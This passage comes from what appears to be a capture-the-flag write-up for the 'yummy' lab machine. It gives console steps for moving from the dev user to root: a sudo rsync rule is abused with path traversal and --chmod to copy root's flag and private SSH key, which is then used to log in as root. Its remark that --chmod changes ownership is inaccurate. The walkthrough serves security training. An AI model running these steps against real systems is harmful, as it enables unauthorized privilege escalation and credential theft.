 ```console
qa@yummy:~/tmp$ mkdir .hg
qa@yummy:~/tmp$ chmod 777 .hg
qa@yummy:~/tmp$ cp ~/.hgrc .hg/hgrc
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

### Dev to Root
We now have a shell as the `dev` user that can run `rsync` as root. Rsync is a tool for synchronizing files and directories between location.

```console
dev@yummy:~/app-production$ sudo -l
User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

We can exploit this by copying the root user's private SSH key. One quick way to read the root flag or root SSH key is using the following command:

```console
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/root.txt --chmod=777 /opt/app/ && cat /opt/app/root.txt
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/.ssh/id_rsa --chmod=777 /opt/app/ && cat /opt/app/id_rsa
```

The key element is the `--chmod` flag of the rsync binary. This additional parameter changes the ownership of the copied file. Since we are the `dev` user, all files will be copied under our permissions, so this option lets us change the permission of file we copied from the root directory. Now we can copy the SSH key and login as the root user.

```console
$ chmod 600 id_rsa
$ ssh -i id_rsa root@yummy.htb
root@yummy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@yummy:~# cat root.txt
```
